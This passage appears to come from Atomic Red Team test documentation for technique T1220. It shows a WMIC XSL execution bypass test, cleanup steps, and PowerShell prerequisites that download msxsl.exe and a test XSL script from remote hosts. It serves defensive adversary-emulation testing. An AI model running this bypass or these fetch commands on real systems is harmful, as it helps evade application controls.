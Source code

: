 #### Cleanup Commands:
```cmd
del -Path #{msxsl_exe} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: msxsl.exe must exist on disk at specified location ("#{msxsl_exe}")
##### Check Prereq Commands:
```powershell
if (Test-Path "#{msxsl_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://web.archive.org/web/20200803205229if_/https://download.microsoft.com/download/f/2/6/f263ac46-1fe9-4ae9-8fd3-21102100ebf5/msxsl.exe" -OutFile "#{msxsl_exe}"
```




<br/>
<br/>

## Atomic Test #3 - WMIC bypass using local XSL file
Executes the code specified within a XSL script using a local payload.

**Supported Platforms:** Windows


**auto_generated_guid:** 1b237334-3e21-4a0c-8178-b8c996124988





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| wmic_command | WMI command to execute using wmic.exe | string | process list|
| local_xsl_file | Location of the test XSL script file on the local filesystem. | path | PathToAtomicsFolder&#92;T1220&#92;src&#92;wmicscript.xsl|


#### Attack Commands: Run with `command_prompt`! 


```cmd
wmic #{wmic_command} /FORMAT:"#{local_xsl_file}"
```




#### Dependencies:  Run with `powershell`!
##### Description: XSL file must exist on disk at specified location (#{local_xsl_file})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{local_xsl_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{local_xsl_file}") -ErrorAction Ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1220/src/wmicscript.xsl" -OutFile "#{local_xsl_file}"
```
